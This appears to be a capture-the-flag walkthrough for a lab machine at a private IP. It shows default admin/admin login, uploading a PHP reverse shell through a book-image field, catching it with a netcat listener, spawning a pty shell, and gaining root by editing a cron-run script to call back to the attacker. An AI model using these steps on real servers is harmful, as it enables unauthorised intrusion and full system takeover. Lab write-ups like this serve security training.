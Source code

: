 ip: 10.0.0.26

## First flag

```txt
http://10.0.0.26/database/user.txt
```

## Second flag

- make login at (admin page)[http://10.0.0.26/admin.php]

  - user: admin
  - pass: admin

- add new book at (this page)[http://10.0.0.26/admin_add.php]
  - isbn: shell
  - title: shell title
  - author: shell author
  - image: put `./shell.php` using current vpn ip
  - description: empty
  - price: 0
  - publisher: attacker

- listen for connection using nc
```bash
nc -nlvp 8080
```
- open (attack endpoint)[http://10.0.0.26/book.php?bookisbn=shell]

- `export TERM=xterm`
- `python -c 'import pty;pty.spawn("/bin/bash");`
- vim /root/root.txt
  - ESC
  - ENTER
  - ESC
  - ENTER

boooom! you get all flags

you can get root access by editing `/opt/tasks.sh` to your ip and port using vim.basic
listen for connection using `nc` on your machine and boom, you are root
